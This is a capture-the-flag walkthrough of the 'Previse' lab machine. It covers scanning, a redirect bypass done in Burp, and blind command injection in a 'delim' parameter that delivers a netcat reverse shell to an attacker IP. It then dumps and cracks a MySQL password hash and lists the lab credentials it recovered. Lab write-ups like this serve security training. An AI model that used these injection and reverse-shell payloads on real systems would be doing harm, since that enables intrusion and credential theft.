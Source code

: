 # Previse

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.11.104  -v`

`gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`


### Open ports

```
22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80 Apache httpd 2.4.29
```

## Users

```
root:mySQL_p@ssw0rd!:) -> creds for mysql db (previse)
m4lwhere:ilovecody112235! -> creds found in previse db 
```


## Endpoints

```
[16:32:23] 302 -    4KB - /accounts.php  ->  login.php
[16:32:28] 302 -    0B  - /download.php  ->  login.php
[16:32:29] 302 -    6KB - /files.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php/login/  ->  login.php
[16:32:31] 302 -    0B  - /logout.php  ->  login.php
[16:32:35] 302 -    3KB - /status.php  ->  login.php
```



## Notes

* Found some redirects and tried to manipulate the 302 response to 200 OK in burp

![image](https://user-images.githubusercontent.com/12052283/130096341-94e2160b-5b44-49c9-ae90-f7fa9f705c31.png)

* Manipulating `/files.php`

![image](https://user-images.githubusercontent.com/12052283/130097012-1c7f6f5b-0737-4c51-83fd-af2434881c2c.png)

![image](https://user-images.githubusercontent.com/12052283/130097078-b98400a4-7c1d-47cd-ae29-8ac60e8f5409.png)

![image](https://user-images.githubusercontent.com/12052283/130097127-d149dd0e-6b84-4af5-8bef-8b192555f030.png)

* Created a new user and downloaded the siteBackup.zip

* In `logs.php` there is an `exec` command that executes a python script, so I can execute another command inside that. In the `http://10.10.11.104/file_logs.php` I can intercept in burp and I can inject the command in `delim` param.

* I tried using `id` , `ls`, `whoami` but I found that the injection was blind so no errors returned. Then I used `sleep 2` and it worked. So I spawn a rev shell using `space ; sleep 2 && nc -e /bin/sh 10.10.14.109 9991` url encoded in the `delim` param. The shell worked and I loged in as www-data

* Upgraded the shell using ...

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' ENTER
Ctrl + Z
stty raw -echo ENTER
fg ENTER ENTER
export TERM=xterm
```

* Logged in into mysql and got the `m4lwhere` hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

```bash
mysql -u root -p
mySQL_p@ssw0rd!:)
use previse;
select username,password from accounts;
```

![image](https://user-images.githubusercontent.com/12052283/130125384-1c250445-344a-405e-8302-4f23e0db4acc.png)

* Finding what hash is using `hashcat --example-hashes | grep '\$1' -B4`

* Executing hashcat to crack since I find the hash is a mode 500

![image](https://user-images.githubusercontent.com/12052283/130125578-18df65ab-78da-497d-ab05-f97bf8b08cd8.png)

* With the hash I ssh with user m4lwhere and got the `user.txt` flag



# References

* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

* https://www.youtube.com/watch?v=JRPWFSzFaG0 -> minute 08:00
